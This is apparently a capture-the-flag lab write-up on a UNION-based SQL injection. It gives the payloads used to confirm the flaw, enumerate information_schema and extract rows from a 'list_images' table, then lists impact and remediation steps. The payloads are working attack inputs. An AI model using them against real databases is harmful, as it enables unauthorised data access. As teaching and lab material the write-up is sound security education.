

# SQL Injection (UNION-Based)

## Description

The application does not properly filter user input before including it in SQL queries, resulting in a **UNION-based SQL Injection** vulnerability.  
An attacker can manipulate database queries to access internal tables and columns, expose sensitive information, and bypass application logic.


## Exploitation

A basic injection such as:

```sql id="k8x4sv"
1 OR TRUE
```
confirmed that user input is interpreted in the SQL query, as the application returned unexpected data:

```text
ID: 1 or true  
Title: Hack me ?  
Url: borntosec.ddns.net/images.png
```
A UNION-based payload was then used to enumerate the database structure:
```SQL
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
This allowed identification of available tables and columns.
Finally, relevant data was extracted using:
```sql
1 OR TRUE UNION SELECT comment, title FROM list_images
```
which revealed useful information, including instructions to retrieve the flag.

## Impact
- Full database enumeration
- Data extraction without authentication
- Exposure of sensitive information

## Remediation
- Validate and sanitize all user inputs
- Avoid displaying database errors to users
- Apply the principle of least privilege to database accounts

## Conclusion

This vulnerability demonstrates that unsanitized input in SQL queries can expose sensitive data and compromise the database.


